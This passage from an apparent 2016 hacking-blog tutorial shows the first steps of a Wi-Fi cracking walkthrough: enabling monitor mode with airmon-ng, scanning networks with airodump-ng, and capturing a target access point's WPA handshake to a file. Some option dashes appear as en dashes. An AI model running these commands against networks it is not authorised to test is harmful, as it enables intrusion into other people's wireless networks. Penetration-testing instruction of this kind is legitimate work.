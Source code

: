 
3 Ways to Crack Wifi using Pyrit, oclHashcat and Cowpatty
posted inHacking Tools, Kali Linux, Penetration Testing, Wireless Hacking	on June 26, 2016 by Raj Chandel SHARE

First start the monitor mode on our wireless adaptor .
--------------------------------------------------------airmon-ng start wlan0
Now the monitor mode is enabled with name wlan0mon.

and then with the following command start listening to all the available wifi connections:

--------------------------------------------( airodump-ng wlan0mon )
After running the above command it will start listening all the wifi traffic nearby so wait till your target appears and then hit ctrl^c.

Now we have to listen to a specific channel on which the target is present . Now run command:

--------------------------------------------( airodump-ng -c 2 –bssid 3C:1E:04:XX:XX:XX –write sommay wlan0mon )

-c == channel number of the target (2 in my case , see the CH column)

–bssid == MAC address of the target AP

–write == name of the capture file

Now wait till the WPA handshake is captured and then hit crtl^c.

Now a file named sommay-01.cap will be generated
